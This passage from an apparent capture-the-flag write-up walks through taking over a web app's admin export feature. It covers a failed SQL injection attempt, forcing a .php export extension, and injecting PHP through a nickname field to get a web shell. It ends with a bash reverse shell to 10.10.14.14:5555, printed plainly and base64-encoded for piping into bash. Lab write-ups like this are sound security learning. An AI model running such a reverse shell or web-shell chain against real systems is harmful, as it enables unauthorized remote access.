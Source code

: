 ![image](https://github.com/user-attachments/assets/e1b226bd-2dd3-4234-b8ed-a9c16a0f5b4d)


Now if we log out and log back in, we should be able to access `/admin.php`. The reason we need to re-log is because if we look back at the source code, it checks our `SESSION` id to then decide if we're authorized to access it or not.

![image](https://github.com/user-attachments/assets/1fe5fd85-5f21-4ec6-a2bf-576bd58316db)

Now all we have access to is an `Export` function or mechanism. One thing I noticed while looking through the source code was that, of all the functions within the source code, they all used prepared statements... Except one:

![image](https://github.com/user-attachments/assets/efd9b6a5-9c90-4377-8a8a-6fccb8d119b9)

And that variable in this case, seems to be `$threshold`.

![image](https://github.com/user-attachments/assets/542c0a94-1bc1-4d7c-8781-7f512e6c730b)

And if we go to export these top players, and intercept the request:

![image](https://github.com/user-attachments/assets/26e1aaab-a874-4d23-9a3b-46ea7a3d21be)

And then inject some SQL into it.... It doesn't work :(   

I tried for quite a while with different payloads, but I just couldn't get it to work. So I moved on from trying to perform SQLi.

I did however try messing with the extension. Now normally, it only allowed for either `.txt, .pdf, .html`. But if we manually change it ourselves through burp, we can specify `php`, and it would work.

Combine that with the fact that the SQL query is retrieving `nickname`, we can try injecting some of our own PHP code using `save_game.php` into the `nickname` parameter, and then hopefully, we'll be able to get a web shell.

Had to make a new user as the settings reset.
![image](https://github.com/user-attachments/assets/43968ee0-0fab-4450-a16a-5e5acf81bd49)

![image](https://github.com/user-attachments/assets/c6cfc9b8-59f7-4a03-8f9b-6126c5741dc3)

![image](https://github.com/user-attachments/assets/ecad0ff6-9e30-4369-a5db-1bcbefafbb46)

![image](https://github.com/user-attachments/assets/a419d585-6000-4da7-89a9-e0093bbb4adb)

Lets get a full shell now.
```
First i base64 encoded:
/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1

and then i use that as the payload with echo, then base64 decode it, and then execute bash.

echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo=%20|%20base64%20-d%20|%20bash
```
